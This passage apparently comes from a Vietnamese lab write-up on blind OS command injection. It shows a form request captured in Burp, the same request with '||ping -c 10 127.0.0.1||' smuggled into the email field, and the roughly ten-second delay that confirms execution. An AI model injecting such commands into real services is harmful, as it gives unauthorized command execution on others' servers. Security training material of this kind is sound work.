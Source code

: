     - Thử nhập như bình thường và quan sát ở burp
    
    ![image.png](/OS%20command%20injection/images/image%207.png)
    
    ```bash
    csrf=eCxSKFNvgaHhjNvVBrfRonsY4eKF3Ag5&name=Jayce&email=jaycedang%40gmail.com&subject=IT&message=Hello
    ```
    
    → Thử sửa lại một chút payload `ping -c 10 127.0.0.1`
    
    ```bash
    csrf=eCxSKFNvgaHhjNvVBrfRonsY4eKF3Ag5&name=Jayce&email=jaycedang%[40gmail.com](http://40gmail.com/)||ping+-c+10+127.0.0.1||&subject=IT&message=Hello
    ```
    
    - Response vẫn trả về `200 OK` nhưng mất 1 khoảng ~ 10s để nhận được. Khả năng cao câu lệnh payload đã được thực thi
    
    ```bash
    ping+-c+10+127.0.0.1
    ```
    
    ![image.png](/OS%20command%20injection/images/image%208.png)
    